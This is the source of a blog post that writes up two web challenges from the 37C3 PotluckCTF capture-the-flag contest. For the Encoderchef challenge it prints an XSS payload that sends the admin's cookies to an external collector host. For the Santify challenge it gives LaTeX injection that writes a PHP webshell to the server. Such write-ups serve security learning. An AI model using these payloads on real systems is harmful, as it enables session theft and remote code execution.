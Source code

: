 ```yaml
---
layout: post
title: PotluckCTF 37C3 - Writeups/Challenges
categories: [CTF Jeopardy]
tags: [ctf,web]
permalink: /posts/37c3potluckctf
img_path: /images/37c3potluckctf/
datafile: 37c3potluckctf
published: true
---
```


My team participated in the 37C3 PotluckCTF and got one challenge, though I personally got painfully close to another one... The following is a writeup/walkthrough of how each flag was grabbed and the thought process for each.

## web/Encoderchef (161 solves)
Created by: `ntomsic`

> I heard Cyberchef is monitored by GCHQ so I am trying to build my own version. It is still under construction so if you see any problems with the site just send a link to the admin and they will have a look :) // (Flag is in admin cookie)

Our site is a converter of text to various formats, like base64, hex, binary, etc.

![Converter](encoderchef_1.png)

We are also given the source code of the page, aswell as an 'admin' page. This 'admin' page has a URL input for the admin to visit.

![Admin URL Visiting Page](encoderchef_2.png)

If we can find an exploit to steal the admin's cookies (as they said in the description). We get the flag!

```php
$output = "Example output";
if ((isset($_GET["input"]) && !is_null($_GET["input"])) && (isset($_GET["encoding"]) && !is_null($_GET["encoding"]))){
	$input = base64_decode($_GET["input"]);

	if($input === false){
		$output = "Invalid input";
	} else {
		switch ($_GET["encoding"]) {
			case "base64":
				$output = base64_encode($input);
				break;
```
A portion of the code catches my eye, specifically the base64 input. If we can put in a base64 input that decodes to HTML tags, we can cause an XSS!

Payload:

```html
</textarea>
<script>
i=document.createElement("img");
i.src="https://******************************.oastify.com?c="+btoa(document.cookie);
document.body.appendChild(i);
</script>
<textarea>
```

Encoding our payload with Base64 and then URL encoding it, and making a final url gives us this: `http://[url]:31337/?encoding=base64&input=[payload]`

And sending it to the admin, sends us back our Base64 encoded cookies with our flag!

Flag: <mark>flag="potluck{uu_make_me_go_crazy}"</mark>

**Files:** None provided :(

## web/Santify (58 solves)
Created by: `13x1`
> I found this shop that claims to provide ""delivery via reindeer sleigh"". I ordered a few things, but the cards did not arrive on time! Please find out what went wrong.<br>Anyway, check out their web page<br>Note: Any accounts named ADMIN, BOT or similar are regular users and not part of the challenge, please ignore them


**I didn't completely solve this challenge during the CTF, but got painfully close...**

The card creation page is the following:

![Card Creation](santify_1.png)

The header text is of key importance, as it mentions `pdflatex`. LaTeX has some interesting capabilities that are listed nicely on [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/LaTeX Injection).

Injecting some math operation in LaTeX, I try to read a 'flag'...

![LFI Attempt](santify_2.png)

... Fair enough.

I found that we have the capabilites to write files, by doing the following.

```latex
\newwrite\outfile
\openout\outfile=test.log
\write\outfile{test!}
\closeout\outfile
```

Looking at our LaTeX log were given where the files are uploaded, from there we can look at our uploaded file. Cool, now what...

We can't really 'read' the binary as LaTeX isn't very good at handling extended unicode without importing packages, and trying to run the command injection payloads fails as they are using the `-no-shell-escape` flag, which restricts usage of `/write18{cmd}`.

**This part I did not get during the competition.**

What I needed to do was write a PHP webshell, as the website is run on PHP which can be seen in file names in other portions of the site (index.php, send-card.php, render-LaTeX.php, etc.).

```latex
\newwrite\outfile
\openout\outfile=cmd.php
\write\outfile{<?php system("/app/readflag");}
\closeout\outfile
```

Now you visit the endpoint it was uploaded to (`/images/<random guid>/cmd.php`) you will see the flag.

**Files:** None provided :(


## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

## Unsolved
A list of challenges I didn't solve, and the downloads (if provided) to try them for yourself! All challenges are sorted by solve count.
{% assign sortedcategories = site.data.ctfs[page.datafile] | sort: 'name' %}
{% for category in sortedcategories %}
	{% assign solved = 0 %}
	{% for chal in category.chals %}
		{% unless chal.solved %}
			{% assign solved = solved | plus: 1%}
		{% endunless %}
	{% endfor %}
### {{ category.name }} - {{ category.chals.size | minus: solved }}/{{ category.chals.size }} solved
	{% assign sortedchals = category.chals | sort: 'solves' %}
	{% for chal in sortedchals reversed %}
<details markdown="1">
<summary>{%if chal.solved%}✅ {%endif%}{{chal.name}}{%if chal.solves%} - {{chal.solves}} solve{%if chal.solves != 1%}s{%endif%}{%endif%}</summary>
	{%if chal.creator%}
Created by: `{{chal.creator}}`
	{%endif%}
	{%if chal.desc%}
> {{chal.desc}}
	{%endif%}
**Files:** {% if chal.files %}{% for file in chal.files %}[{{ file.name }}]({{ file.url }}) {% endfor %}{% else %}None provided :({% endif %}
</details>
	{% endfor %}
{% endfor %}
